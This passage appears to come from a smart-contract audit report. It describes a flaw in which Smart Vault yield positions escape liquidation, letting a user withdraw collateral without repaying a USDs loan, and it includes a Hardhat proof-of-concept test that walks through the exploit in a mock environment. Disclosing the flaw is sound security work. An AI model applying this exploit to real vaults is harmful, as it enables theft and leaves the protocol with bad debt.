 Consequently, the user can withdraw the collateral without repaying the original `USDs` loan. Given the `liquidated` state variable would now be set to `true`, any attacker would need to create a new Smart Vault before the collateral could be used again.

**Impact:** An attacker could repeatedly borrow against collateral deposited in a yield position after being liquidated, resulting in bad debt for the protocol and likely compromising the stability of `USDs` if executed on a large scale.

**Proof of Concept:** The following test can be added to `SmartVault.js`:
```javascript
it('cant liquidate yield positions', async () => {
  const ethCollateral = ethers.utils.parseEther('0.1')
  await user.sendTransaction({ to: Vault.address, value: ethCollateral });

  let { collateral, totalCollateralValue } = await Vault.status();
  let preYieldCollateral = totalCollateralValue;
  expect(getCollateralOf('ETH', collateral).amount).to.equal(ethCollateral);

  depositYield = Vault.connect(user).depositYield(ETH, HUNDRED_PC.div(10));
  await expect(depositYield).not.to.be.reverted;
  await expect(depositYield).to.emit(YieldManager, 'Deposit').withArgs(Vault.address, MockWeth.address, ethCollateral, HUNDRED_PC.div(10));

  ({ collateral, totalCollateralValue } = await Vault.status());
  expect(getCollateralOf('ETH', collateral).amount).to.equal(0);
  expect(totalCollateralValue).to.equal(preYieldCollateral);

  const mintedValue = ethers.utils.parseEther('100');
  await Vault.connect(user).mint(user.address, mintedValue);

  await expect(VaultManager.connect(protocol).liquidateVault(1)).to.be.revertedWith('vault-not-undercollateralised')

  // drop price, now vault is liquidatable
  await CL_WBTC_USD.setPrice(1000);

  await expect(VaultManager.connect(protocol).liquidateVault(1)).not.to.be.reverted;
  ({ minted, maxMintable, totalCollateralValue, collateral, liquidated } = await Vault.status());

  // hypervisor tokens (yield position) not liquidated
  await expect(MockWETHWBTCHypervisor.balanceOf(Vault.address)).to.not.equal(0);

  // since minted is zero, the vault owner still has access to all collateral
  expect(minted).to.equal(0);
  expect(maxMintable).to.not.equal(0);
  expect(totalCollateralValue).to.not.equal(0);
  collateral.forEach(asset => expect(asset.amount).to.equal(0));
  expect(liquidated).to.equal(true);

  // price returns
  await CL_WBTC_USD.setPrice(DEFAULT_ETH_USD_PRICE.mul(20));

  // user exits yield position
  await Vault.connect(user).withdrawYield(MockWETHWBTCHypervisor.address, ETH);
  await Vault.connect(user).withdrawYield(MockUSDsHypervisor.address, ETH);

  // and withdraws assets
  const userBefore = await ethers.provider.getBalance(user.address);
  await Vault.connect(user).removeCollateralNative(await ethers.provider.getBalance(Vault.address), user.address);
  const userAfter = await ethers.provider.getBalance(user.address);

  // user should have all collateral back minus protocol fee from yield withdrawal
  expect(userAfter.sub(userBefore)).to.be.closeTo(ethCollateral, ethers.utils.parseEther('0.01'));

```